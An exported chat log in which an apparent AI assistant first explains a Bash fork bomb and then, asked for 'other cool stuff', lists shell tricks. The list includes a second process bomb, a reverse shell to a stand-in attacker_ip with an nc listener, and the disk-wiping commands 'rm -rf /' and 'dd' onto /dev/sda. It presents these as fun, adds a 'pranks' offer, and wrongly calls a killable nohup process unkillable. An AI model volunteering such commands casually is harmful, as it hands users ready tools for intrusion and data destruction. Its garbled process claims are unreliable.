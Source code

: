 ```yaml
---
title: Fork bomb explanation
tags: []
created: '2025-07-19'
updated: '2025-07-19'
summary: "\U0001F64B **You:**  what this does? :() { :|:& };:"
draft: false
---
```


# Fork bomb explanation

## 🧠 Full Chat

🙋 **You:**

what this does? :() { :|:& };:

---

🤖 **Assistant:**

That is a **fork bomb**, a type of denial-of-service (DoS) attack on a system. It is a Bash function that recursively spawns copies of itself until the system runs out of resources (processes, memory, CPU). Here's how it works:

### Breakdown:
```bash
:() { :|:& };:
```
- `:()` → Defines a function named `:` (yes, just a colon).
- `{ :|:& };` → The function does the following:
  - `:|:` → Calls itself (`:`) and pipes the output to another instance of itself.
  - `&` → Runs the process in the background.
- `:` → Executes the function immediately.

### What happens?
1. The function `:` is called.
2. Each call spawns two more copies of itself.
3. The process rapidly grows exponentially.
4. Eventually, the system runs out of resources (processes, memory), leading to a crash or making it unusable.

### How to protect against it?
- Set process limits using `ulimit`:
  ```bash
  ulimit -u 1000  # Limits the number of user processes
  ```
- Use control groups (`cgroups`) to limit process creation.

⚠️ **Warning**: Running this on your system **will likely crash it**.

---

🙋 **You:**

what other cool stuff like this should I know?

---

🤖 **Assistant:**

If you’re into quirky, dangerous, or just plain interesting Bash tricks, here are some you might like:

### 1. **Command Substitution Bomb**
A variation of the fork bomb that works differently:
```bash
`$0 & $0`  
```
This recursively calls the script itself in the background, consuming system resources.

---

### 2. **Hex Your Terminal (The Matrix Effect)**
Simulate the Matrix-style falling code:
```bash
echo -e "\e[32m"; while true; do echo $RANDOM $RANDOM $RANDOM $RANDOM; sleep 0.05; done
```
Use `Ctrl + C` to stop it.

---

### 3. **Reverse Shell (Ethical Hacking)**
Send a remote shell to an attacker's machine:
```bash
bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```
This allows an attacker to execute commands remotely (if their machine is listening via `nc -lvp 4444`).

---

### 4. **Write Data to RAM (Create a RAM Disk)**
Speed up file operations by writing directly to RAM:
```bash
mkdir /mnt/ramdisk
mount -t tmpfs -o size=512M tmpfs /mnt/ramdisk
```
Files in `/mnt/ramdisk` will be blazing fast but disappear on reboot.

---

### 5. **Fork a Process that Can’t Be Killed (Zombie Process)**
Run this, and the process will refuse to die with `kill`:
```bash
nohup tail -f /dev/null &
```
To stop it, use `kill -9 <PID>`.

---

### 6. **Turn Off a System Instantly (If You Hate It)**
```bash
:(){ :|:& };:  # Fork bomb (again, in case you forgot)
rm -rf /  # Deletes everything (DO NOT RUN)
dd if=/dev/zero of=/dev/sda bs=1M  # Overwrites disk (DO NOT RUN)
```
These are *not* recommended unless you're testing in a sandbox or just want to destroy something for fun.

---

### 7. **Simulate a Typing Effect**
```bash
echo "Hello, world!" | pv -qL 10
```
The `pv` command lets you control output speed like an old-school terminal.

---

### 8. **Create an Endless File**
```bash
yes "Hello world" > bigfile.txt
```
This creates a massive file rapidly. To stop it, use `Ctrl + C`.

---

### 9. **Confuse a User with a Fake Progress Bar**
```bash
while true; do echo -n "Processing..."; sleep 0.5; echo -n "."; sleep 0.5; echo -n "."; sleep 0.5; echo " Done!"; done
```
It loops forever, making someone think something is happening.

---

### 10. **Make a File Disappear (Without Deleting It)**
```bash
ln -s /dev/null myfile.log
```
Anything written to `myfile.log` is now discarded into the void.

---

Do you want more pranks, security tricks, or automation hacks? 😈